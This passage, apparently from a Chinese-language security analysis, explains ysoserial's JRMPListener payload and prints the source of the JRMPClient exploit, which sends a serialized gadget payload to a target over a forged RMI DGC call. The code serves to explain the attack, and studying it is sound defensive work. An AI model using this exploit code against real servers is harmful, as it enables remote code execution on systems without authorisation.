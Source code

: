 因为`ActivationGroupImpl类`和 `ActivationGroup类`都没实现`readObject()`方法，所以它们会继承其父类的方法。在反序列化过程中就发生了注解中的调用，最终的效果是在服务端开启特定端口。

#### `Exploit/JRMPClient ` 

既然打出`Payloads/JRMPListener`后服务端上多了一个TCP端口，接着我们就可以用`Exploit/JRMPClient ` 发起DGC调用了（DGC，Distributed Gabage Collection，分布式垃圾回收，可以看做RMI协议下的一条指令，用来回收对象调用方不再使用的引用），总之会发生与RMI有关的通信。其实现代码如下：

```java
public static final void main ( final String[] args ) {
    if ( args.length < 4 ) {
        System.err.println(JRMPClient.class.getName() + " <host> <port> <payload_type> <payload_arg>");
        System.exit(-1);
    }

    // 由payload_type和payload_arg生成Payload，实际上调用了payloadClass.newInstance().getObject()方法
    Object payloadObject = Utils.makePayloadObject(args[2], args[3]);
    String hostname = args[ 0 ];
    int port = Integer.parseInt(args[ 1 ]);
    try {
        System.err.println(String.format("* Opening JRMP socket %s:%d", hostname, port));
        makeDGCCall(hostname, port, payloadObject);
        
	// ****	 SNIP	****
}
    
    public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
        InetSocketAddress isa = new InetSocketAddress(hostname, port);
        Socket s = null;
        DataOutputStream dos = null;
        try {
            s = SocketFactory.getDefault().createSocket(hostname, port);
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);

            OutputStream os = s.getOutputStream();
            dos = new DataOutputStream(os);

            dos.writeInt(TransportConstants.Magic);
            dos.writeShort(TransportConstants.Version);
            dos.writeByte(TransportConstants.SingleOpProtocol);

            dos.write(TransportConstants.Call);

            @SuppressWarnings ( "resource" )
            final ObjectOutputStream objOut = new MarshalOutputStream(dos);

            objOut.writeLong(2); // DGC
            objOut.writeInt(0);
            objOut.writeLong(0);
            objOut.writeShort(0);

            objOut.writeInt(1); // dirty
            objOut.writeLong(-669196253586618813L);

            objOut.writeObject(payloadObject);

            os.flush();
            
	// ****	 SNIP	****
        }
    }    
```